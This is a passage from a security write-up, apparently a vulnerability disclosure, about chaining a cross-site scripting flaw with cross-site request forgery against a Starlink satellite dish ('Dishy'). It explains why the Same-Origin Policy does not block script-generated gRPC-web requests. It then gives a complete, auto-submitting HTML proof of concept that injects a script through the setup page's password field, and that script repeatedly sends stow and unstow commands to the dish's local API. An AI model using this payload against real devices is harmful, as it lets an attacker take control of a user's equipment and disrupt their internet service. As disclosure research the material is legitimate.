 
Normally, the Same-Origin Policy (SOP) restricts web browsers from making requests to different origins.

However, by exploiting an XSS vulnerability, an attacker can execute scripts within the victim's web browser.

These scripts are considered as originating from the same source (i.e., the website the victim is currently accessing).

As a result, the Same-Origin Policy (SOP) recognizes requests generated by these scripts as coming from the same origin, and thus the SOP restrictions do not apply in this case.

Therefore, in the case of CSRF attacks exploiting XSS vulnerabilities, especially for requests like gRPC that require a specific content-type header,

the attack script runs within the victim's browser, treating it as a legitimate request, thus including the specific content-type header in the request.

### Exploit PoC (Proof of Concept)

---

Therefore, leveraging the **`XSS`** vulnerability and the previously mentioned bug, the Payload for sending a gRPC request to **`Dishy`** would be as follows:

```html
<html>
	<body>
		<h1>Dishy Stow and Unstow</h1>
		<form id="PoC" method="POST" action="http://192.168.100.1/setup">
			<!-- <input type="hidden" name="ssid" value='" onfocus=javascript:alert(`XSS`); autofocus="'> -->
			<input type="hidden" name="password" value='"><script>for(let i=0;i<100;i++){setTimeout(()=>{var xhr=new XMLHttpRequest();xhr.open("POST","http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle",true);xhr.setRequestHeader("x-grpc-web","1");xhr.setRequestHeader("Content-Type","application/grpc-web+proto");xhr.onreadystatechange=()=>{if(xhr.readyState==4&&xhr.status==200){console.log(xhr.responseText);}};xhr.send(new Uint8Array([0,0,0,0,3,146,125,0]).buffer);setTimeout(()=>{var xhr2=new XMLHttpRequest();xhr2.open("POST","http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle",true);xhr2.setRequestHeader("x-grpc-web","1");xhr2.setRequestHeader("Content-Type","application/grpc-web+proto");xhr2.onreadystatechange=()=>{if(xhr2.readyState==4&&xhr2.status==200){console.log(xhr2.responseText);}};xhr2.send(new Uint8Array([0,0,0,0,5,146,125,2,8,1]).buffer);},1000);},i*2000);}</script><input type="hidden'/>
		</form>
		<script type="text/javascript">
			document.addEventListener("DOMContentLoaded", function() {
				document.getElementById("PoC").submit();
			});
		</script>
	</body>
<html>
```

## Demo

---